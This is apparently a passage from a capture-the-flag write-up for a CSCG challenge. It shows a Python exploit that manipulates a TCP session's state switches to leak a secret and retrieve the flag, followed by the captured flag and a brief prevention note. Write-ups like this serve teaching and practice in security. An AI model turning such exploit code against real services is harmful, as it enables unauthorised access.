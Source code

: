 ```python
s = TcpSession(dhost, dport, shost, sport, verbose=0)
s.register_callback(Callback.SEND_ACK, c.callback)
s.connect()
s.send(b"1\n")
c.wait_until_switch(StateSwitch(True, False))
print("Switched from True to False")

secret = re.findall(b"SECRET=\[.*?\]", s.received_bytes)[0][8:-1]
print("secret: {0}".format(str(secret)))

c.wait_until_switch(StateSwitch(False, True))
print("Switched from False to True")
s.send(secret)

while(b"}" not in s.received_bytes):
	time.sleep(1)

flag = re.findall(b"CSCG\{.*?\}", s.received_bytes)[0]
print("flag: {0}".format(str(flag)))
```

## 💥 Run Exploit:

![images/Untitled%201.png](images/Untitled%201.png)

**FLAG: CSCG{gib_ack_plis_cAmgUXs2wr2XFi5NSt7Ud2F0}**

## 🛡️ Possible Prevention:

The simplest prevention would be to simple generate a new `random_data` on the timeout exception as well.
